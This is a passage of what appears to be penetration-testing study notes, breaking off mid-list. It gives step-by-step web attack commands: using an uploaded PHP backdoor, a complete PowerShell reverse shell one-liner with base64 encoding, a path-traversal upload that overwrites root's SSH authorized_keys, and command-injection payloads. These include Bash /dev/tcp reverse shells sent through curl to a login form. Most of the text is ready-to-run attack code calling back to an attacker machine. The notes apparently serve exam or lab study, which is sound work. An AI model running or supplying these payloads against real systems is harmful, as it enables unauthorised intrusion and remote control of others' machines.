        `curl http://<target>/meteor/uploads/simple-backdoor.pHP?cmd=dir`  
    3. Use Kali's PowerShell to generate encoded reverse shell one-liner
       ```
       kali@kali:~$ pwsh
     
       PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("<kali>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

       PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)  
       PS> $EncodedText =[Convert]::ToBase64String($Bytes)  
       PS> $EncodedText
       ...
       PS> exit
       ```
    5. Using curl to send the base64 encoded reverse shell oneliner  
       ```
       curl http://192.168.50.189/meteor/uploads/simplebackdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0... AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
       ```
  - **Overwrite the authorized keys**
    1. Generate local private keys in kali
       ```
       kali@kali:~$ ssh-keygen
       Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
       cat fileup.pub > authorized_keys
       ```
    3. modify the filename (relative path) in burp request  
       `filename="../../../../../../../root/.ssh/authorized_key"` 
    4. Connect to SSH  
       `kali@kali:~$ rm ~/.ssh/known_hosts`  
       `kali@kali:~$ ssh -p 2222 -i fileup root@mountaindesserts.com`  
- **Command injection**
  - ⚠️ **Goal: execute web shell/RCE-->revere shell**
  - Inspect: ?page=, ?id=, ?cmd=
  - Detect payloads:
    ```
    ; id
    && id
    $(id)
    `id`
    ```
    `(dir 2>&1 *'|echo CMD);&<# rem #>echo PowerShell`          
    `curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://<target>:8000/archive` #send url encoding
  - Url encode chrs
    ```
    "     %22
    &     %26
    space +
    ```
  - 💣 Linux: Bash reverse shell  
    `curl -X POST http://192.168.203.16/login -d "username=user" -d "password=pass" -d "ffa="&&bash -c 'bash -i >& /dev/tcp/<kali>/4444 0>&1'""`  
    `curl -X POST http://192.168.203.16/login -d "username=user" -d "password=pass" -d "ffa=%22%26%26bash+-c+'bash+-i+>%26+/dev/tcp/<kali>/4444+0>%261'%22"`  
  - 💣 Windows: Powercat    
    1. serve Powercat via Python web server  